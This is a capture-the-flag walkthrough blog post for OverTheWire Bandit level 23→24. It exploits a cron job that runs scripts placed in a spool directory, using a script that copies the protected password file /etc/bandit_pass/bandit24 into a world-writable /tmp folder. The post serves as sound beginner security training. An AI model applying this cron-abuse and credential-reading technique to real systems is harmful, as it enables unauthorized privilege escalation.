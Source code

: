 ```yaml
---
layout: post
title: "Bandit Level 23 → Level 24 | OverTheWire"
description: "Learn linux command by playing Bandit wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 23 → Level 24.In this level we will learn about corntab files and write our first shell-script in this series. The passwords are hidden, so you have to find the passwords for next level yourself."
author: "Programmercave"
header-img: "/assets/Bandit-Overthewire/overthewire_poster.jpg"
tags:  [Linux, OverTheWire-Bandit, CTF]
date: 2019-12-25
---
```

* toc
{:toc}

Learn linux command by playing [Bandit](https://overthewire.org/wargames/bandit/) wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 23 → Level 24. 

In this level we will learn about corntab files and write our first shell-script in this series. 

The passwords are hidden, so you have to find the passwords for next level yourself.

![Bandit OverTheWire]({{ site.url }}/assets/Bandit-Overthewire/overthewire_poster.jpg){:class="img-responsive"}

### Previous Post

[Bandit Level 0 to Level 3]({{ site.url }}/blog/2019/12/21/Bandit-Level-0-to-Level-5-OverTheWire)<br/>
[Bandit Level 4 to Level 8]({{ site.url }}/blog/2019/12/22/Bandit-Level-4-to-Level-9-OverTheWire)<br/>
[Bandit Level 9 to Level 11]({{ site.url }}/blog/2019/12/24/Bandit-Level-9-to-Level-12-OverTheWire)<br/>
[Bandit Level 12 → Level 13]({{ site.url }}/blog/2019/12/24/Bandit-Level-12-Level-13-OverTheWire)<br/>
[Bandit Level 13 to Level 15]({{ site.url }}/blog/2019/12/24/Bandit-Level-13-to-Level-16-OverTheWire)<br/>
[Bandit Level 16 to Level 18]({{ site.url }}/blog/2019/12/24/Bandit-Level-16-to-Level-19-OverTheWire)<br/>
[Bandit Level 19 to Level 20]({{ site.url }}/blog/2019/12/25/Bandit-Level-19-to-Level-20-OverTheWire)<br/>
[Bandit Level 21 to Level 22]({{ site.url }}/blog/2019/12/25/Bandit-Level-21-to-Level-23-OverTheWire)

## [Bandit Level 23 → Level 24](https://overthewire.org/wargames/bandit/bandit24.html)

### Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)

### Solution : 

Command to connect remote host : `ssh bandit23@bandit.labs.overthewire.org -p 2220` password is `****` .

Execute these commands to know the content of crontab file and then content of the script file.
```
cd /etc/cron.d/
ls
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
```

The script in *cronjob_bandit24.sh* is :
```
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```

The command `cd /vars/pool/$myname` will change to *bandit24* directory and then all scripts in directory *bandit24* will be executed and then deleted. This is done in every 60 seconds as `timeout` is provided.

![Bandit Level 23 24]({{ site.url }}/assets/Bandit-Overthewire/bandit_l2324_terminal1.jpg){:class="img-responsive"}

So if we put our script in */var/spool/bandit24* then it will be executed and then deleted. So we will write our script such that it will output password for next level.

We will create a directory *pcdir123* in */tmp* directory and change the permissions to readable, writeable and executable for *pcdir123*. (This is very important). The command are:
```
mkdir /tmp/pcdir123
chmod 777 pcdir123
```

![Bandit Level 23 24]({{ site.url }}/assets/Bandit-Overthewire/bandit_l2324_terminal2.jpg){:class="img-responsive"}

Now create a script file *pass24script.sh* in */tmp/pcdir123* which will contain our script. The script is 
```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/pcdir123/pass24file
```

*pass24script.sh* is not executable, so make it executable for all users using command `chmod 777 pass24script`.

![Bandit Level 23 24]({{ site.url }}/assets/Bandit-Overthewire/bandit_l2324_terminal3.jpg){:class="img-responsive"}

Copy this script in */var/spool/bandit/24* using command `cp pass24script.sh /var/spool/bandit24`

When new minute starts, file pass24file is produced with password for the next level if the directory pcdir123 has write permission enabled. The password is `****` .

![Bandit Level 23 24]({{ site.url }}/assets/Bandit-Overthewire/bandit_l2324_terminal4.jpg){:class="img-responsive"}
 
Reference: [https://www.reddit.com/r/HowToHack/comments/cg3zu9/is_overthewires_bandit_level_2324_broken_spoilers/](https://www.reddit.com/r/HowToHack/comments/cg3zu9/is_overthewires_bandit_level_2324_broken_spoilers/)<br/>
[https://www.billycody.com/otw-wargames/bandit/bandit-level-23](https://www.billycody.com/otw-wargames/bandit/bandit-level-23)

### Next Post

[Bandit Level 24 → Level 25]({{ site.url }}/blog/2019/12/26/Bandit-Level-24-Level-25-OverTheWire)<br/>
[Bandit Level 25 to Level 26]({{ site.url }}/blog/2019/12/26/Bandit-Level-25-to-Level-26-OverTheWire)<br/>
[Bandit Level 27 to Level 31]({{ site.url }}/blog/2019/12/26/Bandit-Level-27-to-Level-31-OverTheWire)<br/>
[Bandit Level 32 → Level 33]({{ site.url }}/blog/2019/12/26/Bandit-Level-32-Level-33-OverTheWire)<br/>

### Other Wargames
[Leviathan Wargame from OverTheWire All Level Solutions]({{ site.url }}/blog/#overthewire-leviathan)<br/> 
[Krypton Wargame from OverTheWire All Level Solutions]({{ site.url }}/blog/#overthewire-krypton)<br/>


